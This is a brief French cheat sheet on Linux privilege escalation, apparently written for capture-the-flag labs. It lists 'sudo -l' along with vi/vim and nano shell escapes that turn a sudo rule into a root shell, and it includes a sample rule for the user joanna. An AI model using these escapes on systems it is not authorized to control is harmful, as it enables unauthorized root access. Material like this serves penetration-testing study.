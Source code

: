 # Escalation de privilège

* **Afficher les commandes exécutables en sudo**
```
sudo -l
```

* **Escalation de privilège depuis vi/vim**
```
sudo /file/file.conf
:!/bin/bash
```

* **Escalation de privilège depuis nano**  
D'abord faire un ```sudo -l```, qui renvoie le résultat suivant :
```
User joanna may run the following commands on openadmin:
(ALL) NOPASSWD: /bin/nano /opt/priv
```
Possibilité d'utiliser nano pour escalation de privilège en faisant :
```
sudo nano /opt/priv
ctrl + R
ctrl + X
reset; bash 1>&0 2>&0
```